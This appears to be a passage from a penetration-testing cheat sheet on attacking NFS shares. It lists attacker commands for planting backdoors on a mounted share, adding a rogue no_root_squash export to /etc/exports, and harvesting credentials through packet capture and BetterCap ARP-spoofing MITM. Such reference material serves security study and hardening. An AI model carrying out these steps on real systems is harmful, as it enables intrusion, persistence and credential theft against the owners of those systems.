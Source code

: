 ### File Manipulation
- **Tool:** Manual Interaction
	```bash
	echo "malicious content" > /mnt/target_file
	```
- **Description:** Modify files on the NFS share to introduce backdoors or other malicious content.

### Unauthorized Access Exploit
- **Tool:**  Manual Configuration
	```bash
	/export *(rw,sync,no_subtree_check)
	```
- **Description:** Allowing access from any IP address can lead to unauthorized access. This configuration allows any client to mount the NFS share, leading to potential data exposure.

## Persistence

### Backdoor Deployment via NFS
- **Tool:** Manual Configuration
	```bash
	cp /path/to/backdoor /mnt/target_directory/
	```
- **Description:** Upload a persistent backdoor to the NFS share, allowing future access.

### Creating Rogue NFS Exports
- **Tool:** Manual Configuration
	```bash
	echo "/malicious_export *(rw,no_root_squash)" >> /etc/exports
	exportfs -a
	```
- **Description:** Modify the NFS server’s exports to create a rogue export, which can be used to host or distribute malicious files.

## Credential Harvesting

### Packet Capture
- **Tool:** [[Wireshark]]
    ```bash
    wireshark -i <interface> -f "tcp port 2049"
    ```
- **Description:** Capture traffic and extract plaintext credentials.

### Man-in-the-Middle (MITM) Attack
- **Tool:** [[BetterCap Cheat Sheet]]
	```bash
	bettercap -iface <interface> -T <target_ip> --proxy
	```
- **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.
